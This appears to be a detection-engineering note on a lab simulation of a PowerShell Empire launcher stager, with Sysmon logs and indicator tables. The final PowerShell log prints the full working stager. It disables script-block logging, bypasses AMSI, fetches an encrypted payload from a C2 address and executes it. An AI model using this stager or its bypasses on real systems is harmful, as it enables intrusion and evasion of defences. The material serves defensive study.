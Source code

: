 # Empire Stager

## Goal 
| Simulation # | Stager Option  |
| ------------ | -------------- |
| 1            | multi/launcher |


## Technical Context
### Simulation 1 
This is the example to study the behavior of the empire generated payload

#### Payload Generation
```bash
(Empire) > usestager multi/launcher
```

#### Attack Begin

1. Pasted the payload on victim machine via cmd.exe
2. the payload successfully callback to C2 server


##### Raw Sysmon Event
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-02T23:43:07.246776900Z'/><EventRecordID>13915</EventRecordID><Correlation/><Execution ProcessID='956' ThreadID='3828'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-02 23:43:07.246</Data><Data Name='ProcessGuid'>{84453EAB-268B-5FC8-1EC2-FB0100000000}</Data><Data Name='ProcessId'>1356</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>powershell  -noP -sta -w 1 -enc //empire generated payload, 5137bytes long //</Data><Data Name='CurrentDirectory'>C:\Users\IEuser\</Data><Data Name='User'>WIN-40TITGP9BI7\IEuser</Data><Data Name='LogonGuid'>{84453EAB-6BA3-5FC6-A0CC-080000000000}</Data><Data Name='LogonId'>0x8cca0</Data><Data Name='TerminalSessionId'>2</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-2686-5FC8-88BF-FB0100000000}</Data><Data Name='ParentProcessId'>1136</Data><Data Name='ParentImage'>C:\Windows\System32\cmd.exe</Data><Data Name='ParentCommandLine'>"C:\Windows\system32\cmd.exe" </Data></EventData></Event>
```

##### Key Indicator

| Field        | Value                                                                         | Comments |
| ------------ | ----------------------------------------------------------------------------- | -------- |
| EventID      | 1                                                                             |          |
| process_exec | powershell.exe                                                                |          |
| process_id   | 1356                                                                          |          |
| cmdline      | powershell  -noP -sta -w 1 -enc //empire generated payload, 5137bytes long // |          |

```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>3</EventID><Version>5</Version><Level>4</Level><Task>3</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-02T23:43:13.642776900Z'/><EventRecordID>13924</EventRecordID><Correlation/><Execution ProcessID='956' ThreadID='2332'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-02 23:43:09.852</Data><Data Name='ProcessGuid'>{84453EAB-268B-5FC8-1EC2-FB0100000000}</Data><Data Name='ProcessId'>1356</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='User'>WIN-40TITGP9BI7\IEuser</Data><Data Name='Protocol'>tcp</Data><Data Name='Initiated'>true</Data><Data Name='SourceIsIpv6'>false</Data><Data Name='SourceIp'>192.168.254.47</Data><Data Name='SourceHostname'>WIN-40TITGP9BI7</Data><Data Name='SourcePort'>51593</Data><Data Name='SourcePortName'>-</Data><Data Name='DestinationIsIpv6'>false</Data><Data Name='DestinationIp'>192.168.254.46</Data><Data Name='DestinationHostname'>-</Data><Data Name='DestinationPort'>80</Data><Data Name='DestinationPortName'>http</Data></EventData></Event>
```

##### Key Indicator

| Field        | Value          | Comments                                                           |
| ------------ | -------------- | ------------------------------------------------------------------ |
| EventID      | 3              |                                                                    |
| process_exec | powershell.exe |                                                                    |
| process_id   | 1356           |                                                                    |
| dest_ip      | 192.168.254.46 | my test lab c2                                                     |
| dest_port    | 80             | depends on the empire listener type, in this simulation i set http |




##### Raw Powershell Event
```xml
12/09/2020 06:41:32 PM
LogName=Microsoft-Windows-PowerShell/Operational
EventCode=4104
EventType=3
ComputerName=DESKTOP-DS6SIME
User=NOT_TRANSLATED
Sid=S-1-5-21-2242309504-3943410855-4141223597-1003
SidType=0
SourceName=Microsoft-Windows-PowerShell
Type=Warning
RecordNumber=152
Keywords=None
TaskCategory=Execute a Remote Command
OpCode=On create calls
Message=Creating Scriptblock text (1 of 1):
If($PSVERSIONTaBLE.PSVersioN.Major -Ge 3){$6866=[rEF].AsSEmBlY.GeTTYPE('System.Management.Automation.Utils')."GETFIE`lD"('cachedGroupPolicySettings','N'+'onPublic,Static');IF($6866){$1fE7=$6866.GeTVALue($NulL);If($1fe7['ScriptB'+'lockLogging']){$1FE7['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$1Fe7['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$VAl=[COlLeCtionS.GeNerIc.DicTioNArY[StRINg,SystEm.OBjeCt]]::nEw();$vaL.Add('EnableScriptB'+'lockLogging',0);$Val.ADd('EnableScriptBlockInvocationLogging',0);$1fE7['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAL}ELSe{[SCrIPtBLoCK]."GEtFIe`ld"('signatures','N'+'onPublic,Static').SetValUe($null,(NeW-ObJect ColLeCTIonS.GENeric.HAsHSEt[String]))}$REF=[REF].ASsEMBLy.GEtTyPe('System.Management.Automation.Amsi'+'Utils');$REF.GETFIeLd('amsiInitF'+'ailed','NonPublic,Static').SetVAluE($null,$trUE);};[SySTEm.NeT.SErvIcePOINTManAGeR]::EXpeCT100ConTINUe=0;$f94E=NEw-ObJEct SYStEm.NEt.WEbClIeNt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TEXT.EncODiNg]::UNiCoDe.GETStrINg([COnVert]::FrOMBAse64StRING('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMgA1ADQALgA0ADYAOgA4ADAA')));$t='/news.php';$f94E.HEaDERs.ADD('User-Agent',$u);$F94E.PrOXY=[SYSTEM.NEt.WEbReQuest]::DeFAulTWebPRoxy;$f94e.PRoXy.CreDenTiALS = [SystEM.NEt.CrEDEnTiaLCachE]::DEFaulTNEtWORKCrEdeNTIAlS;$Script:Proxy = $f94e.Proxy;$K=[SysteM.TExT.ENcOdING]::ASCII.GEtBYTES('d6ca3fd0c3a3b462ff2b83436dda495e');$R={$D,$K=$ARgs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxoR$S[($S[$I]+$S[$H])%256]}};$f94e.HeADErs.ADD("Cookie","fWJXtlJxNLEeuCyR=RVMR/WTf/10e5AuqgunI/tSzYc8=");$DATA=$F94E.DowNlOAdDatA($SEr+$t);$IV=$DATA[0..3];$DATa=$dATA[4..$Data.lenGTH];-jOiN[CHAr[]](& $R $Data ($IV+$K))|IEX

ScriptBlock ID: 4730dd1c-d170-4282-895d-5fc273487e82
Path:
```